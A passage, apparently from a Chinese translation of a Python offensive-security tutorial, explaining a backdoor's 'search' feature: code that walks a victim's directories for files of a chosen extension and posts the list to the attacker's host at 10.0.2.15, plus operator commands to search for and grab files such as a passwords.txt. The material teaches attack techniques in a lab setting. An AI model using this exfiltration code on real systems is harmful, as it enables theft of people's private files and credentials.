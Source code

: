 ```
            files is a list of the files name in dirpath

            Once we got the files list, we check each file (using for loop), if the file extension was matching what we are looking for, then
            we add the directory path into list string. the os.path.join represents a path relative for our file to
            the current directory and in our example it's the C:\\ directory

        '''

        for dirpath, dirname, files in os.walk(path):
            for file in files:
                if file.endswith(ext):
                    list = list + '\n' + os.path.join(dirpath, file)

        requests.post(url='http://10.0.2.15', data= list ) # Send the search result
...       
```

所以首先，我们将格式定义为`search C:\\*.pdf`。请注意，我们只关注第二部分，也就是我们要搜索的目录和文件扩展名。现在，为了清理`received`命令并将其拆分为参数，我们需要去掉前面七个字符；这样做是为了去掉不需要的搜索字符串和空格。现在，如果我们数一数前面七个字符，它将会包括`C`目录；完成这个操作后，输出会干净许多。接下来，我们将字符串拆分为路径和文件扩展名，并将它们存储在路径和扩展名变量中。所以第一个参数将是`path`，它将存储在路径变量中，第二个将存储在扩展名变量中。接下来，我们定义一个列表变量，这将是我们用来存储文件目录的占位符。现在，实际执行搜索的函数是`os.walk(path)`函数。这个函数将遍历提供的`path`目录中所有指定的目录，并返回三个值：`dirpath`，它是包含目录路径的字符串；`dirname`，它是`dirpath`中子目录名称的列表；最后是`files`，它是`dirpath`中所有文件名的列表。

接下来，我们执行另一个循环，检查`files`列表中的每个文件。如果文件的扩展名是我们想要的扩展名，例如`.pdf`，那么我们就将该目录值加入到列表字符串中。最终，`os.path.join()`函数表示相对于当前目录的文件路径，在我们的例子中是`C:\`目录。最后，我们将结果发送回攻击者端。

运行脚本时，作为开始，让我们通过运行以下命令搜索`C:\`目录中的所有 PDF 文件：

```
search C:\*.pdf 
```

接下来，让我们尝试抓取`Documents\Module 3.pdf`：

```
grab*C:\Users\hkrais\Documents\Module 3.pdf
```

我们还可以搜索系统中的每个文本文件。应该会有一大堆文件：

```
search C:\*.txt
```

我们可以缩小搜索范围，仅在`Desktop`目录中进行搜索。

```
search C:\Users\hkrais\Desktop\.txt
```

然后我们在那儿有一个叫做`passwords.txt`的文件。尝试抓取它，并像在上一章一样验证它的内容。

# 目标目录导航
